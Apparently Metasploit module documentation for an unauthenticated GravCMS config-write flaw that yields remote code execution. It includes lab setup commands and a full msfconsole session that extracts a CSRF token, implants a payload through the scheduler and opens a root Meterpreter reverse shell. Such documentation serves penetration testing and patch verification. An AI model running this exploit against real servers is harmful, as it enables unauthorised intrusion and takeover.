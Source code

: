 ## Vulnerable Application

### Description

This module exploits arbitrary config write/update vulnerability to achieve remote code execution. Unauthenticated users can execute a
terminal command under the context of the web server user.

In versions prior to 1.10.10 of the admin component, an unauthenticated user can execute some methods of administrator controller
without needing any credentials. Particular method execution will result in arbitrary YAML file creation or content change of existing
YAML files on the system. Note that the fixed admin component (v1.10.10) has been released with GravCMS version 1.7.9.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/) .

### Setup

GravCMS requires only PHP and a web server to run. Please visit following url to find out required php packages.

[https://learn.getgrav.org/17/basics/requirements](https://learn.getgrav.org/17/basics/requirements)

```
wget https://getgrav.org/download/core/grav-admin/1.7.8
unzip -x 1.7.8
chown -R www-data:www-data grav-admin
```

Once you finished the installation, visit the GravCMS and complete the admin user creation process.

Scheduler is not enabled in the default installation. It has a very important role during the exploitation.
To finish up the installation, execute the following command to enable the scheduler.

```
(crontab -l; echo "* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1") | crontab -
```

## Verification Steps

1. Follow [Setup](#setup) and install the application.
2. Run `msfconsole`
3. Set `RHOSTS`
4. Set `LHOST`
5. Execute `run` command.
6. You should get a shell.

## Options

### TARGETURI

The base path to GravCMS. The default value is `/`.

## Scenarios

```
msf6 >
msf6 > use exploit/linux/http/gravcms_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.179.131
RHOSTS => 192.168.179.131
msf6 exploit(linux/http/gravcms_exec) > set LHOST 172.26.253.227
LHOST => 172.26.253.227
msf6 exploit(linux/http/gravcms_exec) > options

Module options (exploit/linux/http/gravcms_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.179.131  yes       The target host(s), range CIDR identifier, or hosts file with
                                        syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.26.253.227   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(linux/http/gravcms_exec) > check
[*] 192.168.179.131:80 - The target appears to be vulnerable.
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 172.26.253.227:4444
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait for 1 minute...
[*] Sending stage (39282 bytes) to 172.26.240.1
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (172.26.253.227:4444 -> 172.26.240.1:53912) at 2021-04-11 15:32:01 +0300

meterpreter > pwd
/var/www/html/grav-admin
meterpreter > getuid
Server username: root (0)
```
